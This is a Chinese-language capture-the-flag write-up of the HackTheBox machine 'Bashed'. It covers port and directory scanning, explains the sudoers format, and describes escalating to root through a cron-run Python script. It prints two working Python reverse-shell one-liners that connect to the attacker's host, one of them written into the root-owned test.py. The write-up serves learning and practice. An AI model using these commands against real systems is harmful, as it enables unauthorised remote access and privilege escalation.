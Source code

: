 
+++
title = 'bashed'
date = '2023-12-07T16:08:29+08:00'
draft = true
+++
## 端口扫描

```shell
nmap -vv -sV -sT -A -T 4 10.129.208.65 
```

```
PORT     STATE    SERVICE          REASON      VERSION
80/tcp   open     http             syn-ack     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-title: Arrexel's Development Site
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
259/tcp  filtered esro-gen         no-response
1417/tcp filtered timbuktu-srv1    no-response
5004/tcp filtered avt-profile-1    no-response
9111/tcp filtered DragonIDSConsole no-response

```

### 访问下80端口

![image-20230501152755513](C:\Users\root\AppData\Roaming\Typora\typora-user-images\image-20230501152755513.png)

## 目录探测

```shell
gobuster dir --url http://10.129.208.65 -w /usr/share/wordlists/dirb/small.txt
```

```
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.208.65
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/05/01 14:29:51 Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 312] [--> http://10.129.208.65/css/]
/dev                  (Status: 301) [Size: 312] [--> http://10.129.208.65/dev/]
/images               (Status: 301) [Size: 315] [--> http://10.129.208.65/images/]
/js                   (Status: 301) [Size: 311] [--> http://10.129.208.65/js/]
/php                  (Status: 301) [Size: 312] [--> http://10.129.208.65/php/]
/uploads              (Status: 301) [Size: 316] [--> http://10.129.208.65/uploads/]
Progress: 959 / 960 (99.90%)
===============================================================
2023/05/01 14:30:35 Finished
===============================================================
```

### 访问下/dev

![image-20230501153106883](C:\Users\root\AppData\Roaming\Typora\typora-user-images\image-20230501153106883.png)

![image-20230501153207799](C:\Users\root\AppData\Roaming\Typora\typora-user-images\image-20230501153207799.png)

### 获得了user的flag，尝试进一步提权到root

## 权限提升

![image-20230501153250145](C:\Users\root\AppData\Roaming\Typora\typora-user-images\image-20230501153250145.png)

### 补充一点关于sudoers文件的知识

```
规则讲解

sudoers文件的数据，每一行分为五个部分，我们用ABCDE来表示。
 一般情况下是: A B = {©} {D} E
 且C与D是可以省略的，我们用大括号扩起来方便大家注意到，但真正书写命令的时候不需要打括号。

    第一个部分A代表授权使用sudo的用户或者组
    第二部分B代表允许授权用户在哪些主机上使用这些权利
    第三部分C代表允许被授权用户提权到什么用户什么组级别的权限，如果省略就代表允许提权到任意用户级别。
    第四部分D代表当被授权用户是否需要输入自身密码来使用特权，若省略这代表需要输入密码
    第五部分E代表允许执行的命令，如果是all就代表允许执行所有命令

第一部分A

A表示的是哪个用户或者哪个用户组拥有执行sudo的权限，当A前面带有%的时候，代表的是用户组。
 例如
 admin all = (all) all
 这行命令表示admin用户可以登陆到任意主机，并且可以提权到任意用户，并且可以执行任意命令，但需要输入用户admin到密码。
 如果在admin前面加上%就会使得admin组的所有用户拥有这些权限，使用的时候需要输入对应用户的密码。而这一行命令典型的就是省略了第四个属性，也就是D，D代表的是密码。
第二部分B

B代表用户可以在哪些电脑上使用这些特权，这一个字段一般是主机名。
 例如：jack mycomputer=/usr/sbin/reboot,/usr/sbin/shutdown
 上面这行表示jack可以在mycomputer上提权到root用户，并且允许以root权限使用reboot与shutdown命令，但是需要输入jack的密码才可以。
第三部分C

代表的是允许提权到的目标用户与组，例如(root:root)的意思就是提权到root用户root组，也就是当前用户使用sudo命令的时候会获得与root用户root组相同的权限。
 当C参数隐藏的时候，默认提权权限就是root。如果是all的话就是指的可以提权到任意用户任意权限。
第四部分D

这个参数是用来定义当目标用户使用sudo的时候，是否需要输入用户密码。如果为NOPASSWD:则表示不需要，否则为需要,注意字母后面带了冒号。
第五部分E

表示允许执行的命令。
```

### 先把shell转发到kali机器上，直接在phpbash里运行python反弹shell的命令

```
python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.16.9',1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"
```

### 后面的步骤需要耐心观察+运气了

```shell
cd /script
ls -la

```

### 多次使用ls -la可以看到test.txt的最后修改时间，每隔一段时间就会更新。并且test.txt的文件所有者是root，可能是root用户的定时任务每隔一段时间运行test.py生成而来的。这里如果对test.txt的最后一次修改时间观察不仔细，很容易漏掉这个细节，这也是我踩的一个坑。

```
echo 'import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.16.9',12345));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);' > test.py
```

### 再次将反弹shell的命令写test.py，同时监听12345端口，看看等下能不能收到shell。

![image-20230501180811085](C:\Users\root\AppData\Roaming\Typora\typora-user-images\image-20230501180811085.png)

### 看了下计划任务，果然定时执行test.py文件。